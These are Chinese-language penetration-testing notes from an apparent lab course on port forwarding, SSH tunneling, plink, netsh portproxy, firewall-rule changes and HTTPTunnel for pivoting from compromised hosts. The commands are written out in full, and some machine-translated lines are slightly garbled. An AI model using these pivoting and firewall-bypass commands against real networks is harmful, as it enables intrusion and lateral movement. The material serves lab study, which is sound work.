


# 端口重定向和隧道

## 端口重定向

> 端口转发是我们将研究的最简单的流量操纵技术，在该技术中，我们将发往一个IP地址和端口的流量重定向到另一个IP地址和端口。


A机器无法通过防火墙浏览互联网，而我们已经控制的Linux web server可以通过防火墙。

我们将使用名为rinetd的端口转发工具重定向Kali Linux web server服务器上的流量。该工具易于配置，可在Kali Linux存储库中找到，并且可通过apt轻松安装

rinetd配置文件/etc/rinetd.conf列出了需要四个参数的转发规则，其中包括`bindaddress`和`bindport`（用于定义绑定（“监听”）IP地址和端口）以及`connectaddress`和`connectport`（用于定义流量的目标地址和端口）。：


例如，我们可以使用rinetd将Kali Linux web server在端口80上收到的所有流量重定向到我们在测试中使用的google.com IP（216.58.207.142）地址。编辑rinetd配置文件并指定以下转发规则


该规则规定，无论目标地址如何，我们在Kali Linux web server服务器的端口80上侦听所有接口（0.0.0.0）的所有流量都将重定向到216.58.207.142:80。使用service重新启动rinetd服务，并确认该服务正在使用ss（套接字统计信息）在TCP端口80上进行侦听


这时，A机器只要浏览Kali Linux web server就等于浏览本不能连接的google。

我们可以使用此技术，只需更改Web服务器的/etc/rinetd.conf文件中的`connectaddress`和`connectport`字段，即可通过Kali Linux web server服务器连接到任何与Internet连接的主机。

## SSH隧道技术

> 具有在SSH协议中创建加密隧道的能力，该协议支持双向通信通道

### SSH本地端口转发

> SSH本地端口转发使我们能够使用SSH作为传输协议将本地端口隧道传输到远程服务器。此技术的效果类似于rinetd端口转发，但有一些曲折。


我们将在我们的Kali Linux攻击机器上执行ssh命令。从技术上讲，我们不会发出任何ssh命令（-N），但会设置端口转发（使用-L），将本地计算机上的端口445（0.0.0.0:445）绑定到Windows Server（192.168.1.110：445），然后通过以学生身份登录（student@10.11.0.128）与我们已经获取的的Linux会话来完成此操作

```bash
sudo ssh -N(不发送指令) -L（本地端口转发） 本地ip:端口:目标IP:端口 已经获取的ssh凭证@已经获取的中转立足的IP
sudo ssh -N -L a.b.c.d:445:w.x.y.z:445 student@s.t.u.v
sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

此例中，最终目标是winServer2016,而Windows Server 2016不在默认情况下支持SMBv1，所以我们要修改本地的samba设置，通过在文件末尾添加“ min protocol = SMB2”来将最低SMB版本设置为SMBv2



完成后，我们只要对本机445端口进行操作，就如同操作目标winServer的445端口。


### SSH远程端口转发

SSH中的远程端口转发功能可以看作是本地端口转发的逆向功能，因为在连接的远程端打开了一个端口，并且发送到该端口的流量被转发到了本地计算机上的端口（启动该端口的计算机SSH客户端）。



```bash
ssh -N（不指定命令） -R（远程端口转发） <kali的ip>:<kali绑定的空闲端口>:<目标机器的本地IP 127.0.0.1>：<我们需要的目标端口3306> <kali的ssh凭证>
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

此时，我们在kali上对本地2221端口的任意操作，视为对目标机器的3306操作。


### SSH动态端口转发

SSH动态端口转发使我们能够设置本地侦听端口，并使其通过使用代理将传入流量隧道传输到任何远程目标

攻破目标后，我们发现目标除了连接到当前网络（10.11.0.x）外，还有一个连接到其他网络（192.168.1.x）的附加网络接口，这时我们可以通过动态端口转发，让目标机器作为代理，帮助我们进一步渗透。我们可以在TCP端口8080（127.0.0.1:8080）的Kali Linux机器上创建本地SOCKS4应用程序代理（-N -D），它将所有传入流量隧道传输到目标中的任何主机

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

尽管我们已经启动了可以通过SSH隧道将应用程序流量路由到目标网络的应用程序代理，但是我们必须以某种方式指导侦察和攻击工具使用此代理。我们可以借助修改ProxyChains设置，通过HTTP，SOCKS4和SOCKS5代理运行任何网络应用程序


通过在命令行之前使用`proxychains`命令，我们将可以正常与192.168.1.x内的其他目标通信


> 默认情况下，ProxyChains会首先尝试从当前目录中读取其配置文件，然后再从用户的$（HOME）/。proxychains目录中读取，最后从/etc/proxychains.conf中读取。这使我们可以根据需要通过多个动态通道运行工具。

## Windows端的端口转发与隧道

### plink-当目标是win时的远程端口转发

假设我们已经攻破一台win，枚举发现3306运行数据库服务


我们想扫描该数据库或与服务进行交互。但是，由于有防火墙，我们无法从我们的Kali机器直接与该服务进行交互。我们将plink.exe（基于Windows的命令行SSH客户端）（PuTTY项目的一部分）转移到目标设备，以克服此限制。程序语法类似于基于UNIX的ssh客户端：

我们可以使用plink.exe通过SSH（-ssh）以kali用户（-l kali）的身份通过密码（ilk）（-pw ilak）通过SSH（-ssh）连接到我们的Kali机器（-l wali），以创建远程端口转发（使用以下命令将端口1234（10.11.0.4:1234）的-R）连接到Windows目标（127.0.0.1:3306）上的MySQL端口

```powershell
plink.exe -ssh -l 用户名 -pw 密码 -R kali-ip:kali的端口:127.0.0.1:3306 kali的ip
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

但是，由于这很可能不适用于典型的反向外壳程序中的交互级别，因此我们应使用cmd.exe / c echo y命令将答案的答案传递给命令。然后，从我们的反向外壳中，此命令将成功建立正向的远程端口，而无需任何交互

```powershell
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```


### NETSH

我们已经通过远程漏洞破坏了Windows 10目标，并能够成功地将特权提升到SYSTEM。枚举受感染的计算机之后，我们发现除了连接到当前网络（10.11.0.x）外，它还有一个似乎已连接到其他网络（192.168.1.x）的附加网络接口。在此内部子网中，我们确定Windows Server 2016计算机（192.168.1.110）的TCP端口445已打开。

由于我们的特权级别，我们不必处理用户帐户控制（UAC），这意味着我们可以使用netsh（默认情况下在每个现代Windows版本上安装）进行端口转发和数据透视

要使其正常工作，Windows系统必须运行IP Helperservice，并且必须为我们要使用的接口启用IPv6support，我们可以通过Windows Services程序检查IP Helperservice是否正在运行，以确认这一点


#### 添加监听

使用netsh（interface）添加（add）一个IPv4-to-IPv4（v4tov4）代理（portproxy），侦听本地已经得到的windows（listenaddress = 10.11.0.22），我们准备的端口4455（listenport = 4455）。转发到端口445（connectport = 445）上的目标Windows 2016 Server（connectaddress = 192.168.1.110）

```powershell
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```

使用netstat，我们可以确认端口4455正在监听受感染的Windows主机：


#### 增加防火墙规则

Windows防火墙将禁止TCP端口4455上的入站连接，这将阻止我们与隧道进行交互。鉴于我们正在以SYSTEM特权运行，我们可以通过添加防火墙规则以允许

```powershell
C:\Windows\system32> netsh advfirewall firewall addrule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

#### 修正kali本地smb最低版本

```bash
kali@kali:~$ sudo nano /etc/samba/smb.conf
...
# to the drivers directory for these users to have write rights in it;   write list = root, @lpadmin
min protocol = SMB2
...

kali@kali:~$ sudo /etc/init.d/smbd restart
[ ok ] Restarting smbd (via systemctl): smbd.service.

kali@kali:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```

成功但是smbclient生成了一个错误。


此超时问题通常是由端口转发错误引起的，但让我们对其进行测试并确定是否可以与共享进行交互。


## 在深度包检查情况下，建立HTTP隧道

某些深包内容检查设备可能仅允许特定协议。例如，如果不允许使用SSH协议，则依赖该协议的所有隧道都将失败

我们的目标是仅使用HTTP协议通过受感染的Linux服务器，启动从Kali Linux计算机到Windows Server 2016的远程桌面连接。

防火墙仅允许端口80、443和1234入站和出站。允许使用端口80和443，因为该计算机是Web服务器，但是1234显然是一个疏忽，因为它当前未映射到内部网络中的任何侦听端口。

我们将依靠HTTPTunnel将流量封装在HTTP请求中，从而创建“ HTTP隧道”。HTTPTunnel使用客户端/服务器模型，我们需要先安装该工具，然后再运行客户端和服务器。

```bash
kali@kali:~$ sudo apt install httptunnel
```

我们在内部Linux服务器上有一个外壳。该外壳基于HTTP（这是防火墙允许的唯一协议），我们通过TCP端口443（易受攻击的服务端口）连接到它

我们将在此Linux计算机上创建绑定到端口8888的本地端口转发，该端口会将所有连接转发到目标Windows Server的3389（远程桌面端口）。请注意，此端口转发不受HTTP协议限制的影响，因为两台计算机都在同一网络上，并且流量不会通过深度数据包检查设备。但是，当我们尝试将隧道从Linux服务器连接到基于Internet的Kali Linux计算机时，协议限制将为我们带来问题。这是我们基于SSH的隧道由于ssh协议不被允许。

我们将使用HTTPTunnel在计算机之间创建基于HTTP的隧道（允许的协议）。此HTTP隧道的“输入”将在我们的Kali Linux计算机上（本地主机端口8080），并且该隧道将在侦听端口1234（跨防火墙）“输出”到受感染的Linux计算机。在这里，HTTP请求将被解封装，流量将被传递到侦听端口8888（仍在受感染的Linux服务器上），由于基于SSH的本地转发，该端口被重定向到Windows目标的远程桌面端口。

带封装的端口转发可能很复杂，因为我们必须考虑防火墙规则，协议限制以及入站和出站端口分配。

我们将在此linux计算机（127.0.0.1）上创建本地转发（-L），并使用我们在漏洞利用后创建的新密码以学生身份登录。我们会将端口8888（0.0.0.0:8888）上的所有请求转发到Windows Server的远程桌面端口（192.168.1.110:3389）

```bash
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
```

为我们的Kali Linux机器在linux跳板机上创建一个HTTPTunnel，以使我们的流量通过仅HTTP协议限制

我们将使用（hts），它将侦听localhost端口1234，将来自传入HTTP流的流量***解封装***，并将其重定向到localhost端口8888（--forward-port localhost：8888），这要归功于先前的命令，重定向到Windows目标的远程桌面端口：


我们需要在kali上设置一个HTTPTunnel客户端，它将接收我们的远程桌面流量，将其封装到HTTP流中，然后将其发送到侦听的HTTPTunnel服务器。

此（htc）命令将在本地主机端口8080（--forward-port 8080）上侦听，对流量进行HTTP封装，并将其通过防火墙转发到端口1234（10.11.0.128:1234）上的侦听HTTPTunnel服务器。


现在，所有发送到我们的Kali Linux计算机上的TCP端口8080的流量都将被重定向到我们的HTTPTunnel（在此处进行HTTP封装，通过防火墙发送到受感染的Linux服务器并解封装），然后再次重定向到Windows Server的远程桌面服务

针对我们的Kali Linux计算机的侦听端口8080发起远程桌面 

```bash
kali@kali:~$ sudo rdesktop 127.0.0.1:8080
```

